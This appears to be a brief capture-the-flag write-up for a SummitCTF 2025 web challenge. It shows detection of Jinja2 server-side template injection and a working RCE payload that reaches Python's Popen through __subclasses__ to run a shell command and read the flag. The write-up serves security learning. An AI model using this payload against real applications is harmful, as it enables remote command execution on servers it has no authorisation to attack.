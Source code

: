 # Writeup #1 – Temps

===
layout: post
CTF: SummitCTF 2025
Date: 12-04-2025
Category: Web
Tags: [SSTI, Jinja2, RCE, web]
===

## Overview
This challenge hinted at Server-Side Template Injection (SSTI) based on the page title. By trying a few basic expressions, I confirmed SSTI was in play — likely using Jinja2 — and then used that to execute system commands and read the flag.

## Step-by-Step Breakdown:

### Step 1: Access the Challenge Page
The challenge displayed this message:
  ``` 
  Welcome to the SSTI Challenge! Try to get the flag by exploiting the greeting page.
  ```

### Step 2: Test for SSTI
To check if template injection was possible, I entered:
 ```
  {{7*7}} 
```

And the output was:
   ``` Hello, 49! ```

Boom — SSTI confirmed. The server was evaluating the template expression. From the syntax, it was clear the backend was using Jinja2.

### Step 3: Exploit SSTI for Code Execution
Once SSTI was confirmed, I used a well-known Jinja2 RCE payload to execute system commands:
```
{{''.__class__.__mro__[1].__subclasses__()[354]('cat /flag', shell=True, stdout=-1).communicate()[0].decode()}} 
```

This payload finds the Popen class from Python's standard library to run system commands on the server.

### Step 4: Retrieve the Flag
Running the payload returned:
```
   SummitCTF{sStI_1s_r3ally_popul4r_4_some_r3s0n}
```

